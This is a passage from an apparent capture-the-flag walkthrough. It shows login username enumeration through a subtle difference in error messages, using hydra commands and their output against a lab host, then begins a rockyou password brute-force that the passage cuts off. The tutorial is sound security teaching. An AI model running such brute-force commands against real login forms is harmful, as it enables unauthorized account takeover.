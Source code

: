 
#### Identify Usernames

On testing a few logins, I’ll notice there’s a subtle difference between a
failed login with user “admin” (that likely exists) and user “asdasdasd” (that
likely does not):

![1540810145333](https://0xdfimages.gitlab.io/img/1540810145333.png)

vs

![1540810168467](https://0xdfimages.gitlab.io/img/1540810168467.png)

I can use this to brute force usernames. I’ll pick a password that won’t work.
Now if it returns with no trailing “.”, that means the username exists. If it
has the “.”, the user does not exist.

`hydra` wants a string to recognize failure. In this case, I’ll give it the
string with the “.” as that means the username doesn’t exist, and it will then
show me the ones where the username does exist.

    
    
    root@kali# hydra -L /opt/SecLists/Usernames/cirt-default-usernames.txt -p sadfasdfasdf 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Login failed.<"
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:38:23
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 825 login tries (l:825/p:1), ~52 tries per task
    [DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:Login failed.<
    [80][http-post-form] host: 10.10.10.86   login: ADMIN   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Admin   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Audrey   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: DEFAULT   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: DEMO   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Demo   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: admin   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: default   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: demo   password: sadfasdfasdf
    1 of 1 target successfully completed, 9 valid passwords found
    

Again, because I told `hydra` that failure was the string “Login failed.”,
it’s reporting any time it doesn’t get that, which are valid usernames.

#### Brute Force Password

With a small list of usernames, now I’ll try for a password. rockyou is huge,
and there’s no way I’ll get all the way through it, but it’s a good place to
start to see if anything jumps out and to let run in the background. It finds
a login for admin very quickly:

    
    
    root@kali# hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.86  http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:failed"                        
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    